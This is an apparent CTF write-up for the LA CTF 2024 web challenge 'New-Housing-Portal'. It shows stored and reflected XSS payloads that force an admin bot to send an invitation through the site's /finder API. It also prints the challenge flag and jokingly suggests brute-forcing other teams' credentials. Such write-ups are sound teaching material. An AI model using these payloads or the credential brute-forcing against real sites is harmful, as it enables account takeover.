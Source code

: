 ```yaml
---
title: New-Housing-Portal
date: 2024-02-18T20:05:23+02:00
description: Writeup for New-Housing-Portal [LA CTF 2024]
author: H0N3YP0T
tags:
- web
draft: false
---
```

___

## Challenge Description

After that old portal, we decided to make a new one that is ultra secure and not based off any real housing sites. Can you make Samy tell you his deepest darkest secret?

## Intuition

When I register to the website I can exploit an XSS vulnerability on my username. In order to get the flag I need to get an invitation from
the admin. In order to force the admin to send me an invitation I probably have to use an SSRF vulnerability to make him use the invitation request API. 
To resume, I can use the XSS vulnerability chained with an SSRF to get the flag. The xss payload used to discover the vulnerability is the following:

```html
<img src=x onerror="alert('vulnerable')">
```

![XSS](/images/lactf_2024/xss.png)

## Solution

First I need to register using the following XSS payload as username:

```html
<img src=x onerror="var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/finder',true);
req.send();
function handleResponse(d) {
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/finder', true);
    changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    changeReq.send('username=brole');
};">
```

The above payload use an SSRF exploit to call the invitation request API and send an invitation to the user `brole`.
Then, I will register another account which will receive the invitation of the admin (brole in this case). The next step is to 
use the admin bot link and send him the following link which is the URL to my XSS vulnerable profile:

```http request
https://new-housing-portal.chall.lac.tf/finder/?q=<img src=x onerror="var req = new XMLHttpRequest(); req.onload = handleResponse; req.open('get','/finder',true); req.send(); function handleResponse(d) {     var changeReq = new XMLHttpRequest();     changeReq.open('post', '/finder', true);     changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');     changeReq.send('username=brole'); };">

```
The bot will visit the profile and in background it will send the invitation to the user `brole`. After that, I will receive the invitation and I can use it to get the flag.

![XSS flag](/images/lactf_2024/secret.png)

### BONUS

A very smart way to find the flag (but smaller chance to succeed) is to brute force a very stupid username and password and
pray. If you are lucky enough you will find the credentials used by another team that already got the admin invitation and therefore
steal their flag 😈.

### Flag

`lactf{b4t_m0s7_0f_a77_y0u_4r3_my_h3r0}`


